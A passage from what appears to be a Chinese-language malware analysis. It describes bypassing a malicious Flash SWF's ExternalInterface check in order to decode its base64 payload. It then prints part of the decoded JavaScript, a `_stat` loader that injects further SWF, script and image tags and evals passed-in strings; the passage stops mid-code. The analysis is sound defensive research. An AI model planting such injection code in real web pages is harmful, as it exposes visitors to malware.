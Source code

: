 下一步是通过自定义的base64解码程序处理此数据，但是利用FFDec调试解码后的SWF仍然是一件非常棘手的事情。对于独立的Flash调试器来说，没有ExternalInterface API可资使用。但是，这个SWF的代码会特意检查ExternalInterface，如果不存在则退出。有两种方法可以解决这个问题。

**第一个方法：**

修改SWF字节码，清除针对ExternalInterface进行检查的代码，这样就可以通过FFDec调试器来处理解码程序了，

[![](https://p4.ssl.qhimg.com/t0129d1fca885e1d196.png)](https://p4.ssl.qhimg.com/t0129d1fca885e1d196.png)

 虽然这样能够绕过检查，但在我的系统上好像无法正常监视变量。我试过Flash 23和Flash 18调试器，都无法看到内存中的变量的内容。

**第二个方法： **

1. 在FlashDevelop中创建一个新的ActionScript项目

2. 将BaseCoder.as添加到项目中

3. 使用要解码的base64数据填充Main类（变量：ss，from_stat_do_1，from_stat_do_2）

4. 在Firefox中编译和执行SWF

5. 检查控制台日志中解码后的数据

[![](https://p2.ssl.qhimg.com/t01000e5ea3c83fe11e.png)](https://p2.ssl.qhimg.com/t01000e5ea3c83fe11e.png)

在base64解码数据中涉及了更多的JavaScript和SWF文件：

[![](https://p3.ssl.qhimg.com/t01d2d47dad5b57865b.png)](https://p3.ssl.qhimg.com/t01d2d47dad5b57865b.png)

这个JavaScript代码非常简单，好像提供一个允许恶意软件注入更多的SWF、JavaScript和IMG标签的_stat对象：



```
(function() `{`
    window._stat = [];
    var d = document;
    _stat.fd = "";
    _stat.wtc = 0;
    _stat.fin = function(fd) `{`
        _stat.wtc = 0;
        if (d["s_stat"] &amp;&amp; d["s_stat"].fin) `{`
            d["s_stat"].fin(fd)
        `}`
    `}`;
    _stat.delay = function(fd) `{`
        if (_stat.fd == fd) _stat.wtc = 0
    `}`;
    _stat.wt = function(fd, fn, sol, sn, v, p) `{`
        if (d[fd] &amp;&amp; d[fd].document &amp;&amp; d[fd].document["s_stat"] &amp;&amp; d[fd].document["s_stat"][fn]) `{`
            try `{`
                if (p &amp;&amp; "" != p) `{`
                    eval('d[fd].document["s_stat"][fn]' + p)
                `}` else `{`
                    d[fd].document["s_stat"][fn](sol, sn, v)
                `}`
            `}` catch (e) `{``}`
            _stat.fin(fd)
        `}` else `{`
            _stat.fd = fd;
            _stat.wtc++;
            if (_stat.wtc &gt; 70) _stat.fin(fd);
            else setTimeout(function() `{`
                _stat.wt(fd, fn, sol, sn, v, p)
            `}`, 500)
        `}`
    `}`;
```